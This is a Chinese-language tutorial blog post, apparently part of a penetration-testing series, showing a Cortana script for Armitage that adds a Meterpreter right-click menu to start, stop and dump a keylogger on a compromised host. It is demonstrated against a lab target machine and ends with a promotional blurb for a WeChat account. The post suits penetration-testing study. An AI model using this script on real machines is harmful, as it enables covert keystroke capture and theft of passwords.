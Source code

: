 ```yaml
---
layout: post
category: binghe-code-hack
title: Armitage使用Cortana创建自定义菜单
tagline: by CurleyG
tag: [hack,binghe-code-hack]
excerpt: Armitage使用Cortana创建自定义菜单
lock: need
---
```


# Armitage使用Cortana创建自定义菜单

通过Meterpreter会话成功连接到目标计算机之后，Cortana还可以为我们提供构建自定义菜单的功能。这里，我们创建一个监听目标主机键盘操作的自定义菜单

首先创建一个脚本menu.cna，内容如下：

```
popup meterpreter_bottom{
    menu "&My Key Logger"{
        item "&Start Key Logger"{
            m_cmd($1, "keyscan_start");
        }
        item "&Stop Key Logger"{
            m_cmd($1, "keyscan_stop");
        }
        item "&Show Keylogs"{
            m_cmd($1, "keyscan_dump");
        }
        on meterpreter_keyscan_start{
            println(" $3 ");
        }
        on meterpreter_keyscan_stop{
            println(" $3 ");
        }
        on meterpreter_keyscan_dump{
            println(" $3 ");
        }
    }
}
```

这段代码实现了在Meterpreter子菜单中创建一个新的弹出菜单项。不过**只有成功渗透了目标计算机并取得了一个Meterpreter命令行时，这个弹出菜单才是可用的**

关键字popup表示要创建一个弹出式菜单项，而函数meterpreter_bottom表示当用户在目标计算机图标上单击鼠标右键并选中Meterpreter时，这个菜单项就会出现。关键字item制定了菜单中的各个选项。，命令m_cmd会根据它们对应编号的会话将命令发送给Metasploit。

这段代码有三个选项：Start Key Logger、Stop Key Logger和Show Keylogs。分别用来开启键盘监听器、停止键盘监听器以及显示当前记录中的键盘监听数据。我们还声明了三个用来处理发送给Meterpreter的命令输出函数。

在Cortana中载入这个脚本，成功渗透目标计算机，然后在目标计算机的图表上单击鼠标右键，会弹出如下的菜单：

![img](https://img-blog.csdnimg.cn/20190128212228138.png)

这里，我们单击Start Key Logger，在Cortana命令行输出了信息：

![img](https://img-blog.csdnimg.cn/2019012821224894.png)

此时，我们到靶机上利用记事本随便输入几个字符

![img](https://img-blog.csdnimg.cn/20190128212306661.png)

接着我们在Kali上单击Show Keylogs

![img](https://img-blog.csdnimg.cn/20190128212323902.png)

效果如下：

![img](https://img-blog.csdnimg.cn/20190128212339314.png)

可以看到在Cortana命令行输出了我们在靶机上输入的键盘操作。

接着，我们单击Stop Key Logger停止键盘监听

![img](https://img-blog.csdnimg.cn/20190128212402916.png)

效果如下：

![img](https://img-blog.csdnimg.cn/20190128212418824.png)

## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
